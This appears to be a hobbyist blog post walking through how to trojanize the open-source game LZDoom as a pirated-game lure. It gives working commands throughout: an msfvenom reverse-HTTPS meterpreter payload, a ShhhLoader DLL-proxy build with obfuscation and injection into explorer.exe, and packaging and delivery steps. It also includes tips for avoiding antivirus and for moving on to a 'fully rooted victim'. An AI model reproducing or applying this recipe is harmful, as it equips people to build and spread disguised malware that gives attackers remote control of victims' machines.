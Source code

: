 # My weekend dive into evasive malware 

So, I've been playing with a bunch of different tools recently just for fun, and figured I'd try to put together something to illustrate how I go about building evasive malware payloads. 

## Nature of the project 

What I ended up going for was to simulate a typical malware-laden pirated game. For this purpose, I utilized the open source game engine LZDoom with the FreeDoom WAD so that I would have a base piece of software to trojanize that would be similarly complex to a commercial game. 

In order to accomplish this, I utilized several off the shelf tools. 

- msfvenom and meterpreter for a shellcode payload. 
- shhhloader for AV evasion and shellcode loading. 

...and that's really it. 

## Building out my payload shellcode 

This was a pretty basic msfvenom job. In order to be maximally evasive, I wanted to use a reverse HTTPS shell, and for compatibility with ShhhLoader, I output it as raw x64 shellcode. Here's the command line: 

```

msfvenom -p windows/x64/meterpreter/reverse_https LPORT=443 LHOST=[my IP] -f raw > shellcode.raw 

```

Not much to it! 

## Reconning for DLL proxying 

In order to make my final malware package look legit, I needed a way to launch my payload while also preserving the functionality of LZDoom so that the hypothetical victim wouldn't suspect that he's just run a busted piece of malware. I had a couple options: 

1. Trojanize the application with assembly. I don't quite know how to do this, so...I didn't. 
2. Write a loader application in C to call both the application executable and a payload executable. This seems pretty jank, though, so I didn't do it. 
3. Use MSFVenom to build out a backdoored EXE. This would break my ability to use ShhhLoader down the road, though. 
4. DLL proxying. Bingo! 

DLL proxying is effectively where one makes a malicious DLL that contains your payload, but also loads functions in from a legitimate DLL in order to preserve the legitimate DLL's functionality. In effect, it *proxies* the legitimate functions from the legitimate DLL through a malicious DLL that effectively serves as a malicious man in the middle between the calling EXE and the DLL it relies on. 

In order to do this, we need to identify a DLL that the application loads, and then we can use ShhhLoader along with a copy of the legitimate DLL to build a DLL proxy payload. 

LZDoom comes with several DLLs to provide various functionalities, e.g. SDL.dll for graphics, libfluidsynth for midi playback, etc. However, not all of the included DLLs with the game are necessarily loaded when the game is run in it's default configuration. In order to discover which DLL would actually be used by the application and thus be a good candidate for proxying, I had to do a bit of recon. This was accomplished simply enough by downloading a legitimate copy of LZDoom to my Windows 10 test VM, and then simply running it and inspecting which DLLs the game loaded. 

To inspect the loaded DLLs, I simply used the task manager -> performance, and then opened the resource monitor by clicking the link at the bottom of the application window labeled "Open Resource Monitor" (this can also be simply searched for in the start menu under "resource monitor"). In the resource monitor, I could then select the LZDoom process and see which DLLs it had loaded. 

I identified libfluidsynth (the midi sound library) as a good candidate for proxying. 

## Building out my proxied DLL with ShhhLoader 

ShhhLoader is an excellent tool for creating evasive payloads that utilize the SysWhispers method of direct syscalls to avoid detection by the API hooks used by many anti-virus solutions. If I recall correctly, this works by effectively reimplementing the ntdll.dll win32 API calls as direct syscalls to the NT Native API calls used by the OS kernel. By doing this, the API hooks (which usually inspect the userland win32 API calls and not the NT Native API calls) are unable to detect malicious activity performed by the payload. More information about this can be found on that project's github. 

In order to use ShhhLoader to it's full extent, please consult the install instructions on that project's page, and *be sure to install OLLVM* support so that you can enable obsfucated payload compilation. This feature can make or break whether AV is able to detect the payload or not! 

Either way, to build out the DLL proxy payload, I had to get a copy of the legitimate fluidsynth DLL that was included with LZDoom and rename it to something that would seem legitimate. This was originally called libfluidsynth64.dll, so I renamed it libfluidsynth64_dev.dll. Dev versions of libraries are usually used for when one needs to compile against that library, so it seems like it would be a perfectly legitimate name...

Following this, I built out the payload as follows: 

```

./Shhhloader.py -l -ns -dp libfluidsynth64_dev.dll -p explorer.exe -o libfluidsynth64.dll shellcode.raw 

```

Breaking it down, what I did was: 

|Flag|Description|
|-|-|
|-l|Use OLLVM for obsfucated compilation|
|-ns|No sandbox evasion. This defaults to sleep evasion, and I'm impatient. It also hasn't been necessary in most of my testing with ShhhLoader.|
|-dp libfluidsynth64_dev.dll|Create a DLL proxy payload that proxies functions from libfluidsynth64_dev.dll (the legitimate DLL)|
|-p explorer.exe|Do process injection into explorer.exe. This could have been anything, and I often also use spoolsv.exe when targeting workstations since the print spooler will also likely be running.|
|-o libfluidsynth64.dll|Output the malicious DLL as libfluidsynth64.dll|
|shellcode.raw|The raw meterpreter shellcode we generated earlier and want to use as a payload|


## Packaging and delivery 

From here, turning this into a functional and distributable malware package was fairly simple. I just copied my malicious DLL and the renamed legitimate DLL into the application directory for LZDoom (which is portable), zipped it up and served it over a python3 http server. 

On my test victim VM, I was able to successfully download this archive, and run the game with no issues (although, LZDoom is an unsigned EXE, so Windows did complain a bit to try and prevent me from running it). As soon as the midi synthesizer in the game fired up, I was able to catch a reverse HTTPS shell back on my attack machine. 

This was able to avoid detection by 100% updated Windows Defender (as of Feb 2023) with both real time detection and cloud supported defense enabled. 

## Caveats 

- ShhhLoader can only generate 64 bit payloads. If you want/need to backdoor a 32 bit app using it, different methods will need to be used. 
- Just because you can get a shell to pop and do some rudimentary rooting around in the filesystem without setting off AV, this does not mean that you can do anything with absolute impunity! Trying to load additional malware that is *not* similarly obsfucated will likely result in a detection, as will bad behavioural actions such as trying to modify the registry for the purpose of exploiting the fodhelper UAC Bypass, etc. You still need to keep on your toes about defense evasion to go from this simple example to a fully rooted victim.
- Be sure to encrypt the network connection by using an HTTPS shell or similar. Doing this with an unencrypted network connection will almost certainly get flagged by the firewall, especially with a staged payload, since the plaintext shell will be running around in the tubes. 








